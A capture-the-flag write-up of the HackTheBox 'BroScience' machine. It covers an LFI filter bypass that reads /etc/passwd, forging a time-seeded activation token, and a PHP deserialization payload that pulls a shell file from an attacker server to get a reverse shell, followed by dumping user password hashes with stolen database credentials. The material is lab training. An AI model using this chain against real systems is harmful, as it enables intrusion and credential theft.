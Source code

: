 # Writeup of the BroScience machine (HackTheBox)

![logo_machine](/images/htb_broscience/logo_machine.png?raw=true)

The following machine is a medium-level one of linux-type.

Let's begin.

---

## Port scanning

We start by scanning the open ports with *nmap* and we get the following results:

![nmap_results](/images/htb_broscience/nmap.png?raw=true)

Here we note that:
  * 3 ports are open (ssh, http and https)
  * the hostname is **broscience.htb**


First of all, we add the entry IP-hostname to the */etc/hosts* file with the following command:

```
sudo echo "<IP_machine> broscience.htb" >> /etc/hosts  
```

  
Then, we navigate to the website, let's see. 
 
---

## Website
 
When we try to enter to "broscience.htb:80", we are redirected to port 443 (HTTPS protocol).

The image below illustrate the homepage of the website.

![homepage](/images/htb_broscience/homepage.png?raw=true)
 
 On the top right we notice a *LOG IN* link, but we are going to exploit it later. 
 
---

## Directories finding
 
Analyzing the HTML of the homepage, we come up with some interesting files:
 * login.php
 * includes/img.php?path=bench.png
 * exercise.php?id=1
 * user.php?id=1

 In order to further list potential paths, we launch *gobuster* :
 
 ```
  gobuster dir -u http://broscience.htb -t 25 -w /wordlists/dirb/common.txt -o gobuster-out.txt
 ```
 
and we obtain these paths:

![gobuster](/images/htb_broscience/gobuster.png?raw=true)

(also tried to enumerate subdomains but didn't find nothing).

---

## Local File Inclusion

Inspecting the */includes/* path, we find 5 .php files, namely: db_connect.php, header.php, img.php, navbar.php and utils.php.

When entering in the img.php file, we obtain the following error:

![missing_path](/images/htb_broscience/img_php_missing_path.png?raw=true)

Leveraging the *path* query parameter, we can exploit the LFI vulnerability. Note that there is a sort of filter for potential malicious payloads (in the image below, we tried with *../*).

![filter_payload](/images/htb_broscience/filter_img_php.png)

In order to bypass it, we just need to double-encode the payload using the URL encoding.

Doing so, we can read arbitrary files in the file system, as */etc/passwd*:

![etc-passwd-file](/images/htb_broscience/img1.png)

---

## Log in with a new account

In order to log in, we need to create a new account in the web app (through *register.php*).
Once registered, an activation code should be sent to our email, but as we can read in the register.php file (downloaded thanks to the LFI vulnerability), this function is not implemented (point 1 figure below). However, the activation code is still generated (point 2) and inserted in the database.

![img12](/images/htb_broscience/img12.png)

We can find *generate_activation_code()* inside */includes/utils.php* and it's implemented in this way:

```
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

As we can observe, it generates a 32 characters token, composed by letters and numbers. The seed of the random function is the time when the function is called (`srand(time())`), so, in order to get the token associated to our account, we just need to get the time when the response of the server was sent (as a response to our registration request) and replicate the code, substituting `srand(time());` to `srand(strtotime("Sat, DD MMM YYYY hh:mm:ss GMT"));` .

Once got the activation code, we call *activate.php* and we insert the token in *code*, as below:

![activate-account](/images/htb_broscience/img3.png)

Then, we can log in to our account with the username and password we insterted.

---

## Insecure deserialization + Reverse shell

Now that we are logged in the web app, we can, for example, post new comments or change the color the page. However, the very first characteristic that caught my attention was the *user-prefs* cookie that has been set.

![user-prefs-cookie](/images/htb_broscience/img4.png)

It is a base64-serialized PHP object. So, analyzing the php code we retrieved before, we note that inside /includes/utils.php there is an *AvatarInterface* class, whose \_\_wakeUp() function creates a new *Avatar* instance and saves it in a path.
Then, by creating a custom AvatarInterface that calls a server we are hosting, request an arbitrary file we have and saves it in the target webserver, then we could think of requesting such file.

Specifically, if AvatarInterface is defined in this way:

```
class AvatarInterface {
    public $tmp = "http://<IP>:<port>/myshell.php";
    public $imgPath = "./myshell.php";

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```

we are setting the path to a server we own and with a file (myshell.php), which will become handy for creating a reverse shell.

Indeed, if we echo a serialized AvatarInterface object (```echo urlencode(base64_encode(serialize(new AvatarInterface)));```), we put the result in the *user-prefs* cookie, we launch our server and then we make the request with the fresh cookie, then, if all is ok, our server will receive a request for myshell.php.

Next, create a new server which is going to listen to the port set in AvatarInterface, call *https://broscience.htb/myshell.php* et voila' - a rev shell will spawn.

![rev-shell](/images/htb_broscience/img8.png)

Great! Now, do your remind that we found a *db_connect.php* file inside /includes? Very good, in there we can find the credentials for a postgre database, let's use them:

```
psql -h localhost -U <user> -p <port> -d <DB>
```

Once connected, we list the tables and find the *users* table. Querying it we retrieve all the registered users with relative hash passwords. 

![db](/images/htb_broscience/img7.png)





